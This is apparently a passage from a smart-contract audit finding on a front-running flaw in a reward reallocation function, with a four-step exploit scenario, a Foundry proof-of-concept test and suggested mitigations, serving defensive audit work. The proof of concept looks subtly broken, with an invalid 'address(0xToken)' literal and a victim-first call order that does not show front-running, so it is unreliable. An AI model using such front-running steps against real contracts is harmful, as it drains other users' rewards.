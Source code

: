 ```solidity

    (uint256 userRewards, uint256 fees) = calculateUserRewardsAndFees(rewardAmountIncludingFees);
    pendingRewards += userRewards;
    accumulatedFees += fees;
}
```

**Exploit Scenario:**

1. User A submits a transaction to reallocate tokens and receive rewards.  
2. Attacker observes the transaction in the mempool.  
3. Attacker submits a similar transaction with a higher gas fee.  
4. Attacker drains the available rewards, leaving User A with nothing.

**Foundry Test (POC):**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "src/YourContract.sol";

contract FrontRunningAttackTest is Test {
    YourContract public contractInstance;
    address attacker = address(0x1);
    address victim = address(0x2);
    
    function setUp() public {
        contractInstance = new YourContract();
    }
    
    function testFrontRunning() public {
        vm.startPrank(victim);
        contractInstance.handleReallocation(1, victim, address(0xToken), 100, "");
        vm.stopPrank();

        vm.startPrank(attacker);
        contractInstance.handleReallocation(1, attacker, address(0xToken), 200, "");
        vm.stopPrank();

        uint256 rewards = contractInstance.claimableRewardAmount();
        assertEq(rewards, 0, "Victim received no rewards due to front-running.");
    }
}
```

###  Recommended Mitigations  

```md
1. Use a commit-reveal scheme: Prevent front-running by making users commit to inputs before revealing.
2. Implement gas price caps: Prevent transactions from cutting the queue based on gas price.
3. Batch process transactions: Handle all inputs fairly in a single round.
```

---
